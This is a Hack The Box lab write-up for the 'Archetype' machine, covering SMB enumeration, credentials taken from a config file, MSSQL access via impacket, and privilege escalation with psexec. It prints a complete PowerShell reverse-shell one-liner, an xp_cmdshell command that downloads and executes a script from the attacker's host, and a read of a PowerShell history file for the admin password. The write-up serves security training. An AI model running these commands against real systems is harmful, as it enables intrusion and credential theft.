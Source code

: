 # HTB - Archetype

I've been wanting to get into Hack The Box for a while now. The first machine I've worked on was Archetype. It's a machine labelled as *Very Easy* and is part of HTB's *Starting Point*. So let's get started:

The first thing we are going to do is an initial Nmap scan with the tags : `-sC` (to tell Nmap to use it's default scripts), `-sV` (to get more information about the services running on the different ports of the machine) and using `-oN` we save the scan in a file. We get the following output:

![Archetype/nmap_initial.png](/images/Archetype/nmap_initial.png)

Okay, so we can identify this box as a Windows machine and we find out that there is a Microsoft SQL Server running on port `1433` and there is a Samba on port `445`.

We also run a more aggressive (`-A`) Nmap scan on all ports (`-p-`) to get more information. The output is as following:

![Archetype/nmap_all_ports_aggressive.png](/imges/Archetype/nmap_all_ports_aggressive.png)

We don't get any interesting additional information here so let's move to on to enumerating Samba.

The initial nmap scan tells us that we can access Samba using the `guest` account, so we will do just that using `smbmap`. We use `-u` to specify the user and `-H` to specify the host's IP. 

![Archetype\smbmap.png](/images/Archetype/smbmap.png)

We find out that backups and IPC$ are accessible as read only. So using smbclient we will access the both of them. First let's check out `backups`:

![Archetype/smbclient_backups.png](/images/Archetype/smbclient_backups.png)

We find an interesting file here, `prod.dtsConfig`. We download it onto our machine using `get`.

Now let's take a look at `IPC$`:

![Archetype/smbclient_ipc.png](/images/Archetype/smbclient_ipc.png)

As you can see, we are unable to get any information from `IPC$` so let's take a look at `prod.dtsConfig`'s content.

![Archetype/prod_dtsConfig.png](/images/Archetype/prod_dtsConfig.png)

We find creds here that look to be for the mssql server: `Archetype/sql_svc:M3g4c0rp123` (Note: the format here is `username:password`)

Let's try getting in the MSSQL server using the creds we just found. We will be using an impacket script called `mssqlclient.py`. This script is already on kali linux but can be found [here](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py). The full command is: `python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth ARCHETYPE/sql_svc@10.10.10.27`.

![Archetype/mssql.png](/images/Archetype/mssql.png)

Great, it worked. The first thing we are going to run is `enable_xp_cmdshell`  and we will prepare a powershell reverse shell on our machine that we are going to use to access the machine.

The code of the reverse shell is: 

```powershell
$client = New-Object System.Net.Sockets.TCPClient("<ATTACKING-IP>", <port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =  $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
We are going to host the reverse shell file using the module `http.server` in python3 and then we'll download it and execute it on the machine we are trying to hack. We run `python3 -m http.server` in the directory containing our powershell reverse shell on our attacking machine. We then run `nc -lnvp <port>` on our attacking machine so we can get the reverse shell. (Note: the `<port>` specified here is the same one specified in the reverse shell code).

Now we go back to mssql server and run `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.217/shell.ps1\");"` to download and execute the reverse shell.

![Archetype/call_revshell.png](/images/Archetype/call_revshell.png) 

Wouhou we get a call back on our attacking machine and we have a reverse shell. Now let's enumerate the machine to find a way to escalate our privileges. 

On this machine, we are able to take a look at the command history of powershell and if we run: `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` we get the administrator's password: `MEGACORP_4dm1n!!`.

![Archetype/history_cmd.png](/images/Archetype/history_cmd.png)

Okay great now we just have to reconnect to the machine as administrator using another impacket script, `psexec.py`. We run `python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.27` and *voilà*!

![Archetype/psexec.png](/images/Archetype/psexec.png)

Now we just need to get the flags!


